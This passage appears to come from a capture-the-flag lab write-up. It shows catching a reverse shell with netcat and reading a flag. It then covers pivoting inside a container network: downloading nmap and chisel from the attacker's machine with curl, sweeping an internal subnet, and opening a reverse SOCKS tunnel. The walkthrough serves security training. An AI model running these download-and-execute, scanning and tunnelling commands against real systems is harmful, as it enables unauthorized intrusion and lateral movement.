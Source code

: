 With this, we obtain a shell and are able to read the first flag.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.137.26] 54068
bash: no job control in this shell
bash-4.2# wc -c .flag
38 .flag
```

## Second Flag

After uploading `nmap` and scanning for other containers, we discover `cert_library_1.cert_cert-internal` and `cert_library-back_1.cert_cert-internal` in the `172.20.0.0/24` range.

```console
bash-4.2# curl http://10.11.72.22/nmap -o nmap
bash-4.2# chmod +x nmap
bash-4.2# ./nmap -sn 172.20.0.0/24
...
Nmap scan report for cert_library_1.cert_cert-internal (172.20.0.2)
Host is up (0.000013s latency).
MAC Address: 02:42:AC:14:00:02 (Unknown)
Nmap scan report for cert_library-back_1.cert_cert-internal (172.20.0.3)
Host is up (0.000028s latency).
MAC Address: 02:42:AC:14:00:03 (Unknown)
...
```

Scanning these hosts for open ports, we find that port `80` is open on `172.20.0.2` and port `8080` is open on `172.20.0.3`.

```console
bash-4.2# ./nmap -p- --min-rate 5000 172.20.0.2
...
PORT   STATE SERVICE
80/tcp open  http

bash-4.2# ./nmap -p- --min-rate 5000 172.20.0.3
...
PORT     STATE SERVICE
8080/tcp open  webcache
```

Using `chisel` to establish a `socks` tunnel to access the hosts.

First, starting the `chisel` server on our machine.

```console
$ ./chisel server -p 9999 --socks5 --reverse
```

Uploading `chisel` to the container and running it in client mode.

```console
bash-4.2# curl http://10.11.72.22/chisel -o chisel
bash-4.2# chmod +x chisel
bash-4.2# ./chisel client 10.11.72.22:9999 R:socks &
```
